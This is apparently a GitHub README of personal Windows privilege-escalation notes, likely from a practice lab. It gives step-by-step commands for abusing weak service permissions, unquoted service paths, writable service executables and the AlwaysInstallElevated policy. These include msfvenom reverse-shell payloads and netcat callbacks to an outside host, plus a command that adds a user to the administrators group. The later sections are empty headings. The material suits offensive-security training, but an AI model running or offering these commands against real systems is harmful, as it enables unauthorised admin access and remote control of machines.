 For Windows Priviledge Escalation guide you can follow these two posts:


1-https://www.fuzzysecurity.com/tutorials/16.html


2-https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/


HERE'S HOW I APPROACH FOR ESCALATING PRIVILEDGES:

![Windows_priv_esc_password_credentials](https://user-images.githubusercontent.com/55708909/92549895-fb567a00-f277-11ea-947d-8929d12b723d.png)


1- Services (binpath):
-----------------------------------------------------------------------
         First transfer the accesschk64.exe to system 
   
         Run accesschk64.exe -accepteula
   
         Run accesschk64.exe -wvuc "Service name"       accesschk64.exe -wvuc daclsvc
   
   ![Service(BIn_Path)](https://user-images.githubusercontent.com/55708909/92556310-390ecf00-f287-11ea-8a85-1af55670e7aa.png)

          You will see that everyone has read and write permission to change SERVICE_CHANGE_CONFIG
          
          Write this: sc config daclsvc binPath= "net localgroup administrators user /add"
          
          Then write this : sc start daclsvc 
          
          You will be added to admin group 

![Service(BIn_Path_1)](https://user-images.githubusercontent.com/55708909/92556850-8c355180-f288-11ea-982b-b02fd5864ca2.png)


2- Services (Unquoted path):
---------------------------------------------------------------------------------------
          For it to work we need to identify which are the path which are not included in quotes
          
          wmic service get name,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """
          
 ![Service(Unquoted_path)](https://user-images.githubusercontent.com/55708909/92557524-05817400-f28a-11ea-9d03-b9f21efc8826.png)

          First transfer nc.exe to C:\Users\user directory
          
          msfvenom -p windows/exec CMD="C:\Users\user\nc.exe 10.9.14.98 443 -e cmd.exe" -f exe-service > common.exe
          
          Transfer the common.exe to C:\Program Files\Unquoted Path Service
          
          type sc start unquotedsvc
          
 ![Service(Unquoted_path_1)](https://user-images.githubusercontent.com/55708909/92558713-c3a5fd00-f28c-11ea-9423-fe436ac65491.png)
         
          

3- Service (Registry):
-------------------------------------------------------------------------------------------

4- Services( Executable files):
---------------------------------------------------------------------------------------------
          
           Transfer the accesschk.exe to pc and check for weak executable service
           
![Service(Executable)](https://user-images.githubusercontent.com/55708909/92559368-1a600680-f28e-11ea-940d-2472ece84622.png)
 
            We notice that everyone has read and write access to filepermservice.exe
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > filepermservice.exe
            
            transfer filepermservice.exe to target system
            
            copy /y filepermservice.exe "C:\Program Files\File Permissions Service"

            sc start filepermsvc 
            
![Service(Executable_1)](https://user-images.githubusercontent.com/55708909/92560004-45972580-f28f-11ea-88fd-f5c365dd41ef.png)

           
5- Registry (Always installed elevated):
---------------------------------------------------------------------------------------------
            
            reg query HKLM\Software\Policies\Microsoft\Windows\Installer
            
            reg query HKCU\Software\Policies\Microsoft\Windows\Installer
            
            If they gave output as 1 then this means we can create our payload in msi format and can escalate priv
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f msi > access.msi

            Transfer it to target machine
            
            msiexec /quiet /qn /i C:\Users\user\access.msi
 
            Netcat session with admin rights
6- Registry (Modified autorun): Need to have admin login to work
-------------------------------------------------------------------------------------------------

7- Password minig (Registry):
-------------------------------------------------------------------------------------------

8- Password mining (Memory)
-----------------------------------------------------------------------------------------

9- Password mining (Configuration Files):
------------------------------------------------------------------------------------------

10- Scheduled tasks (Missing binary):
------------------------------------------------------------------------------------------

11- Startup applications:
--------------------------------------------------------------------------------------------

12- Potato attacks:
--------------------------------------------------------------------------------------------

13- DLL Hijacking:
----------------------------------------------------------------------------------------------

14-Kernel exploits:
----------------------------------------------------------------------------------------------
